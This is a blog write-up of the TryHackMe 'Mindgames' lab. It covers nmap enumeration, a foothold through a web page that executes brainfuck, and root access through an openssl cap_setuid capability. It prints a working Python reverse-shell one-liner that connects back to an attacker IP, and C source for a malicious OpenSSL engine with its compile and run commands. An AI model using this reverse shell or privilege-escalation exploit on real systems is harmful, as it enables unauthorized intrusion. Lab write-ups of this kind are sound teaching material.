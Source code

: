 ```yaml
---
title: "TryHackMe - Mindgames"
author: Nasrallah
description: ""
date: 2023-01-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, brainfuck, capability]
img_path: /assets/img/tryhackme/mindgames
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Mindgames](https://tryhackme.com/room/mindgames) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.186.235                                                                                                                            
Host is up (0.13s latency).                                                                                                                                   
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)                                                                                                
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)                                                                                               
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)                                                                                             
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)                                                                                
|_http-title: Mindgames.                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

We found two ports, 22/tcp running OpenSSH and 80/tcp running a Goland http server.

## Web

Let's navigate to the web page.

![](1.png)

In this page we see some weird text, from my experience i can tell it's brainfuck programming language.

At the bottom of the page we find a section where we can execute brainfuck code.

![](2.png)

# **Foothold**

We can use this feature to give the page a reverse shell code in brainfuck and get a foothold.

We can use [dcode.fr](https://www.dcode.fr/brainfuck-language) to switch a python reverse shell code to brainfuck code.

I tried multiple python scripts but the following script is the one that worked for me.

```python
import os,pty,socket;s=socket.socket();s.connect(("10.11.14.124",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

![](3.png)

Now setup a listener and run the reverse shell on the web page.

![](4.png)

# **Privilege Escalation**

After we the shell, i run linpeas and found the following:

![](5.png)

We found `openssl` with the capability `cap_setuid+ep`.

I googled that and found this [article](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/) walking through how to exploit this capability to escalate privileges.

First we create a .c file with the following content.

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Now we compile the c code using the following commands:

 - `gcc -fPIC -o exploit.o -c exploit.c`

 - `gcc -shared -o exploit.so -lcrypto exploit.o`


Next we upload the `exploit.so` to our target machine.

![](6.png)

We run the command `openssl req -engine ./exploit.so` to get a root shell.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
